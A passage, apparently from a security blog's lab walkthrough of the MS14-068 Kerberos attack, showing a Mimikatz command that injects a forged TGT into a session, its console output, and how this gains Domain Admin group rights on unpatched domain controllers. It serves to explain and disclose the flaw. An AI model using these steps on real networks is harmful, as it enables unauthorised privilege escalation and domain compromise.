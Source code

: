 ### **Phase 2: Injecting the forged TGT and gaining a valid TGS:**

After the forged Kerberos TGT ticket is generated, it’s time to inject it into the current user session using [Mimikatz](https://adsecurity.org/?p=556)(command is in bold & italics).

***> c:\Temp\pykek>c:\temp\mimikatz\mimikatz.exe “kerberos::ptc c:\temp\TGT_darthsidious@lab.adsecurity.org.ccache” exit***

> .#####.   mimikatz 2.0 alpha (x64) release “Kiwi en C” (Nov 20 2014 01:35:45)
> .## ^ ##.
> ## / \ ##  /* * *
> ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
> ‘## v ##’   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
> ‘#####’                                     with 15 modules * * */

> mimikatz(commandline) # kerberos::ptc c:\temp\TGT_darthsidious@lab.adsecurity.org.ccache

> Principal : (01) : darthsidious ; @ LAB.ADSECURITY.ORG
> Data 0

> Start/End/MaxRenew: 12/7/2014 3:10:30 PM ; 12/8/2014 1:10:30 AM ; 12/14/2014 3:10:30 PM

> Service Name (01) : krbtgt ; LAB.ADSECURITY.ORG ; @ LAB.ADSECURITY.ORG
> Target Name  (01) : krbtgt ; LAB.ADSECURITY.ORG ; @ LAB.ADSECURITY.ORG
> Client Name  (01) : darthsidious ; @ LAB.ADSECURITY.ORG
> Flags 50a00000    : pre_authent ; renewable ; proxiable ; forwardable ;
> Session Key       : 0x00000017 – rc4_hmac_nt
> af5e7b47316c4cebae0a7ead04059799
> Ticket            : 0x00000000 – null              ; kvno = 2        […]
**>   * Injecting ticket : OK**
> mimikatz(commandline) # exit
> Bye!

Note that since I am injecting the forged TGT which states that I am a member of Domain Admins, Enterprise Admins, etc into my session, when this TGT is passed to an unpatched DC for a Kerberos service ticket (TGS), the service ticket will show I am a member of these groups. When the TGS is presented to a service, the user account is treated as if it is a member of these groups, though viewing the group membership shows the user is conspicuously absent. This enables an attacker to act as if they are a member of groups when they are not.
